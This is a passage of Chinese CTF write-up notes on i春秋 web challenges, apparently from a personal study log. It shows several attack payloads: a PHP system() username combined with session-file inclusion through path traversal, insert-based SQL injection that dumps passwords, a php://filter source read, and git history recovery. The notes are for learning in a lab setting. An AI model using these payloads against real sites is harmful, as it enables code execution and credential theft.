 注：浏览器后缀直接ichunqiu.com/phpinfo.php打开时，session.save_path和以上action文件执行不一致，不明白为什么

payload:?module=&file=../../../../tmp/SESS/sess_nlloqni0ef0tpqbt3jdj81rj75

注：注册登录后，你注册的账号在cookie里已设置了PHPSESSID，因此sess_nlloqni0ef0tpqbt3jdj81rj75就是sess_PHPSESSID

访问后可以看见用户名和uid，发现注册没有任何限制，注册用户名<?php system('cat flag.php'); ?>，登录后执行上面payload

一下博客详细介绍了session包含漏洞：https://blog.csdn.net/weixin_43803070/article/details/91047032

大佬的writeup:https://bbs.ichunqiu.com/thread-16750-1-1.html

https://www.jianshu.com/p/624fe6d09c0b


## blog（i春秋）

**insert注入**

留言板存在注入，猜测insert语句的值类似于: (username,title,content)
于是这里构造的insert语句类似于 ... values('aaa','testpayload2','test')#

这个payload过去报错了，这说明猜测的insert字段有误，既然不是三个，更不可能是两个，受控制的部分已经有两个了，因此推测insert语句的字段数为4.

查数据库名 title=1&content=test','X'),('aaa',(select database()),'content

查密码用户名 post: title=1&content=test','X'),('aaa',(SELECT group_concat(password) from users),'content

能看见一个密码是我刚才注册的 一个是admin的密码 登录admin,发现manager页面，存在文件包含

??module=php://filter/read=convert.base64-encode/resource=../flag&name=php

大佬的wp：https://blog.csdn.net/qq_30123355/article/details/58161312

## 登录（i春秋）
1.sql盲注

盲注的脚本都没跑出来

2.git源码泄露

登录后提示/.bctfg1t，用gitstack下载源码`changame.ichunqiu.com/Challenges/.bctfg1t/`

之后执行git log，然后使用得到的commit，执行git reset --hard commit，回滚到之前的版本，再查看flag.php，啥变化都没有

然后大佬wp提示查cat /.git/refs/stash,获得版本的hash值，然后git reset --hard 哈希值

然后打开flag.php,提示flag在/71ec9d5ca5580c58d1872962c596ea71.php，或得flag，但是提交不正确

涉及到的git命令 

```
git cat-file -p hash值
git ls-tree hash值
```

也可以用git-extract，结果也是一样的，但是git-extranct不需要回滚版本，下载下来的是全部commit历史记录的文件

https://www.jianshu.com/p/0ea09975169d

https://www.jianshu.com/p/0ea09975169d
